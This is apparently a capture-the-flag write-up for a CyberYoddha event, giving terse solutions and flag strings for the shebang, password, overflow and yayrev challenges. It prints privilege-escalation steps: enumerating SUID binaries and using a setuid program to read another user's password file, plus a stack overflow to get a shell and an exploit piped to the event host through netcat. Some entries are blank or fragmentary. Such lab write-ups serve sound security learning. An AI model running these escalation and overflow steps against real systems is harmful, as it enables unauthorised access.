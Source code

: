 # shebang info

cyberyoddha.baycyber.net
1337

# shebang0

ls for hidden files, there's a hidden flag.txt

```
CYCTF{w3ll_1_gu3$$_b@sh_1s_e@zy}
```

# shebang1

grep the flag.txt file for curly brace

```
CYCTF{w3ll_1_gu3$$_y0u_kn0w_h0w_t0_gr3p}
```

# shebang2

cat all files in these directories  grep for CYCTF

```
find . -exec cat {} \; 2>/dev/null | grep CYCTF
```

```
CYCTF{W0w_th@t$_@_l0t_0f_f1l3s}
```

# shebang3

run `diff file.txt file2.txt`
I just manually wrote the flag down, prob a better way

```
CYCTF{SPOT_TH3_D1FF}
```

# shebang4

there's a png file in the folder, scp it out

```
scp -P 1337 shebang4@cyberyoddha.baycyber.net:flag.png .
```
```
CYCTF{W3ll_1_gu3$$_th@t_w@s_actually_easy}
```

# shebang5

desc hints at SUID

first, find all files with the SUID flag in permissions
```
find / -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

We found a program /var/cat owned by shebang6  the SUID flag, meaning we can run that as shebang6

Look for files owned by shebang6
```
find / -user shebang6 2>/dev/null
```

There's two, /var/cat,  another interesting file

Run `/var/cat /etc/passwords/shebang6`

```
CYCTF{W3ll_1_gu3$$_SU1D_1$_e@$y_fl@g$}
```

# password1

Created script to reverse
```
CYCTF{pu771ng_th3_ch@r@ct3r$_t0g3th3r_1337}
```

# password2

Created script to reverse
```
CYCTF{ju$t_@_l177l3_scr@mbl3_f0r_y0u_t0_d3c0d3}
```

# password3

Created script to reverse
```
```

# overflow1

overflow with AAAAAAAAAAAAAAAAB to get shell
run `cat flag.txt 2>&1`

```
CYCTF{st@ck_0v3rfl0ws_@r3_3z}
```

# overflow2

Run this and pipe into netcat
```
python3 input.py | nc cyberyoddha.baycyber.net 10002
```

# yayrev

first = lgUBAJu0n_y33tRaQ_C
second = EnD_PytHONWh0al3g